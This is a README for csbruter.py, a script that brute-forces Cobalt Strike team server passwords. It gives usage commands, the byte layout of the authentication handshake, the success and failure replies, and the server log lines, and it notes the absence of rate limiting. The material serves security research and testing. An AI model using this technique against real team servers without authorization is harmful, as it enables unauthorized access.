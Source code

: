 # csbruter.py

Script to brute force Cobalt Strike team server passwords.

## Usage

```
python3 csbruter.py [-h] [-p PORT] [-t THREADS] host [wordlist]
```

Default port is 50050. Wordlist can be supplied via stdin as such:

```
cat wordlist.txt | python3 csbruter.py 192.168.1.1
```

## Issue

Cobalt Strike team server has no mitigation for password brute force
attacks.

## Background

The Cobalt Strike team server requires two types of authentication. The
first is a raw data type of authentication ostensibly used to protect
the socket. The second is a Java serialized object based authentication
which includes the mostly symbolic user name. This script attempts to
brute force the former authentication type, which includes no rate
limiting or account lockout mechanism.

Both of these authentication types are wrapped in an SSL socket, with
a certificate containing following subject:

```
/C=Earth/ST=Cyberspace/L=Somewhere/O=cobaltstrike/OU=AdvancedPenTesting/CN=Major Cobalt Strike
```

This certificate is baked into the Cobalt Strike Java Keystore
cobaltstrike.store, which is easier to change if you use one of the
default keystore passwords: 123456

The first authentication request is defined roughly as such in a fixed
261 byte length command:

```
4 Byte Magic \x00\x00\xBE\xEF
1 Byte Password Length (unsigned int)
Password (unsigned int cast char array)
Padding \x65 "A" * ( Length( Password ) - 256 )
```

Which, on the wire, looks roughly like this, however the padding is
ignored and can be anything. The authentication routine will read up to
256 of Length.

```
\x00\x00\xBE\xEF\x08passwordAAAAAAAAAAAAAA...AAAA
```

If the password supplied matches the password defined when starting the
team server, the team server replies with a 4 byte magic. This password
can not be empty (zero length).

```
\x00\x00\xCA\xFE
```

Otherwise, the team server returns null

```
\x00\x00\x00\x00
```

Once this phase is completed successfully, the team server expects a
serialized object class called Request.

On the team server, the following log entries are sent to stdout during
brute force authentication.

Invalid password:
```
[-] rejected client from 192.168.1.1: invalid password
```

Valid password:
```
[!] Trapped java.io.EOFException during client (192.168.1.1) read [Manage: unauth'd user]: null
```

Tested at up to 138 attempts per second.